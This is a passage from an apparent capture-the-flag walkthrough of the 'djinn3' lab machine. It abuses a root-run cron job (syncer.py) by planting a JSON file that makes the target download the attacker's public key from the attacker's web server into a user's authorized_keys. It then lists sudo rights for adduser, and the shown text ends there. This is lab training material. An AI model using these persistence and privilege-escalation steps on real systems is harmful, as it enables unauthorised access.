 
Analyzing the sources reveals that there must be a cron job running by the user `saint` to execute `syncer.py`.

`pspy64` confirms the presence of a cronjob that executes `/home/saint/.sync-data/syncer.py` every 3 minutes:

~~~
2020/09/27 17:21:01 CMD: UID=1000 PID=29007  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:21:01 CMD: UID=1000 PID=29006  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:21:01 CMD: UID=0    PID=29005  | /usr/sbin/CRON -f 
2020/09/27 17:24:01 CMD: UID=1000 PID=29014  | /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:24:01 CMD: UID=1000 PID=29013  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:24:01 CMD: UID=0    PID=29012  | /usr/sbin/CRON -f 
2020/09/27 17:24:06 CMD: UID=0    PID=29019  | 
2020/09/27 17:27:01 CMD: UID=1000 PID=29023  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:27:01 CMD: UID=1000 PID=29022  | /bin/sh -c /usr/bin/python3 /home/saint/.sync-data/syncer.py 
2020/09/27 17:27:01 CMD: UID=0    PID=29021  | /usr/sbin/CRON -f 
~~~

We are missing some sources to fully understand the program, but what we have is enough to understand that:

* there is a cron job that executes `syncer.py` every 3 minutes
* the program will list all `*.json` files in saint's home and in `/tmp`
* if there are files which names are based on date format, with a more recent version in `/tmp`, it will copy the content of the location indicated by `URL` (in the json file) to the destination indicated by `Output` (in the json file).

Let's create a file named `/tmp/27-09-2020.config.json` with the following content:

~~~
{
	"URL": "http://172.16.222.128:8000/id_rsa.pub",
	"Output": "/home/saint/.ssh/authorized_keys"
}
~~~

Now run a python web server (`python3 -m http.server`) from `/home/kali/.ssh` and wait for a connection from the target (max 3 min). After you see the connection to your web server, you can connect as saint:

~~~
kali@kali:~/.ssh$ ssh saint@djinn.box
~~~

# Lateral move (saint -> jason)

Checking saint's privileges reveals that we can run `adduser` as root without password:

~~~
saint@djinn3:~$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
~~~

